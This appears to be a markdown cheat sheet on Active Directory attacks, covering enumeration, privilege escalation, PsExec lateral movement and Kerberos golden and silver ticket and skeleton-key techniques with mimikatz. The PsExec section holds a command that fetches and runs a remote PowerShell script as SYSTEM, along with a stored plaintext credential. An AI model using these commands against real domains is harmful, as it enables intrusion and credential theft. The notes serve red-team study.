



# Active Directory Attacks

## AD Attack Lifecycle
```
V Recon
| Domain Enum             
| Local Priv Esc          
| Admin Recon
| Lateral Mvmt <----------+
| Domain Admin Privs      |
+ Cross Trust Attacks ----+
| Persist and Exfiltrate
V
```



<hr/>

## Enumeration
* Policies
* Computers, DCs
* Users, Admins, Domain Admins, Enterprise Admins
* Groups
* Shares, Files
* GPO - order of processing: local, site, domain, OU. View RSoP: `gpresult /R`
* Access Control
  * Access Tokens (identity and privileges of user)
  * Security Descriptors
    * Every AD object has a Security Descriptor
    * Components:    
      * SID of owner
      * Discretionary ACL (DACL) - defines permissions trustees (user or group) have on an object        
      * System ACL (SACL) - logs success/failuer audit messages when an object is accessed
      * *DACL and SACL are comprised of Access Control Entries (ACE)*
* Trusts
* Forests

### Enumeration - Tools
* Powershell - see PS doc🔗
* Group Policy Result Tool - `gpresult /R`
* net.exe - `net user /domain` , `net view /domain`, `net accounts /domain`, `net share`
* whoami - `whoami /priv`, `whoami /groups`
* BloodHound - Import and display domain info ingested by SharpHound (ps1 or exe) - generates zip file.
  * NB On Kali, start neo4j as `neo4j console`. Service fails to start with `neo4j start` (also on windows as non-admin)
  * `. .\SharpHound.ps1` then `Invoke-BloodHound -CollectionMethod All` and `Invoke-BloodHound -CollectionMethod LoggedOn` then import zip files
 
<hr/>

## Privilege Escalation
* Hunting for Local Admin access on other machines
* Hunting for high privilege domain accounts (like Domain Administrators)
* Local Privilege Escalation
  * Missing patches
  * Automated deployment and AutoLogon passwords in clear text
  * AlwaysInstallElevated (Any user can run MSI as SYSTEM)
  * Misconfigured Services
  * DLL Hijacking

### Privilege Escalation - Tools
* PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
* BeRoot: https://github.com/AlessandroZ/BeRoot
* Privesc: https://github.com/enjoiz/Privesc

<hr/>

## Lateral Movement
* PowerShell Remoting - see PS doc [🔗](AD_Powershell.md)
  *  WSMan uses TCP 5985 (HTTP) and 5986 (HTTPS)
* PsExec
  * `cmdkey /add:172.16.3.11 /user:dcorp-ci\hack /pass:potatoPOTATO3$` Set up authentication
  * `.\PsExec64.exe -accepteula \\172.16.3.11  cmd.exe /c whoami` Test PsExec
  * `.\PsExec64.exe -accepteula \\172.16.3.11 -s cmd.exe` Launch SYSTEM cmd
  * `.\PsExec64.exe -accepteula \\172.16.3.11 -s powershell -c 'iex(iwr -UseBasicParsing http://172.16.99.32/callme.ps1)'` Invoke PS as SYSTEM

<hr/>

## Kerberos



### Golden Ticket
* Step 3 in diagram
* Signed and encrypted by the hash of krbtgt user which makes it a valid TGT ticket
* Execute mimikatz on DC as Domain Admin to get krbtgt hash `lsadump::lsa /patch` 
* Now we can generate a Golden Ticket using this hash at any time in the future, to regain access as Domain Administrator `kerberos::golden` 
* `klist` to view cached tickets

### Silver Ticket
* Step 5 in diagram
* Signed and encrypted by the NTLM hash of service account to generate TGS
* Only grants access to the services themselves
* Execute mimikatz on DC as Domain Admin to get domain controller hash `lsadump::lsa /patch` 
* Now we can generate a Silver ticket using `kerberos::golden`
* `klist` to view cached tickets

### Kerberos Delegation
* kekeo to get TGT and TGS
* mimikatz to inject ticket

#### Constrained


#### Unconstrained


### Cross-Domain Trust



## Skeleton Key
* Patch the lsass process on DC so that it allows access as any user with a single password
* Not persistent across reboots
* Uses mimikatz `misc::skeleton`

<hr/>


### Another Model of AD Attack Lifecycle


<hr/>

## Generic Red Team Operations Attack Lifecycle
```
V Recon
| Initial Compromise
| Establish Persistence
| Escalate Privileges <---+
| Internal Recon          |
| Lateral Movement        |
+ Data Analysis    -------+
| Exfiltrate and Complete Mission
V
```


